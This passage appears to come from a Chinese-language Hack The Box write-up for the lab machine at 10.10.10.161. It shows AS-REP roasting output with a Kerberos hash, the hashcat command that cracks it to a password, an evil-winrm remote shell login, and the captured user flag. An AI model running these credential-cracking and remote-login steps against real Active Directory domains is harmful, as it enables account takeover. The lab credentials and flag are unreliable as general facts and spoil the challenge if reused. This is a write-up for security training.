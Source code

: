 ```bash
[*] Getting TGT for sebastien
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB:cf48d6fe3a3bee0c6f1d4f56b317f02d$185fa69dc7e4f10c4ce99a6e1e1bbccf5e0c1b7bbab89fec64211456286c3a78f8ded942088b2661b0592ff68286b26cf7f8b8572ee4f57a200ef5bed0fc5eccfcb63ac1a54e2b667ab46702a9229759d935f6323e1983c503c2417c7edb6a1fc5e027aff253407b11347d0d7bd03765db1afc1ece4228ec459e86f4a095fe91b3856f02e839c32276eca9d41da4c07b274549c795eecf38c6f827b2d204359dad0e9b829385501eb8f1b4202f5a2c20b59bba199dc8df7a6dce227f193e95e259d72eaeb9dbd9add92715724a833f3552cd999aa048c4d431d07c30c6493352
```

于是爆破以上 hash

```bash
hashcat -m 18200 svc-alfresco.kerb /usr/share/wordlists/rockyou.txt --force
```

得到密码

```
s3rvice
```



# winrm 远程登录

```bash
└─# evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice                                                                                                   252 ⨯
                                        
Evil-WinRM shell v3.5 
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine 
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion 
                                        
Info: Establishing connection to remote endpoint 
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> 
```

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> type ../desktop/user.txt
ad8a13c71444093f3ebde84258f19b43
```

此外还可以 用 `svc-alfresco:s3rvice` 登录 smb 看看



# 提取与横向
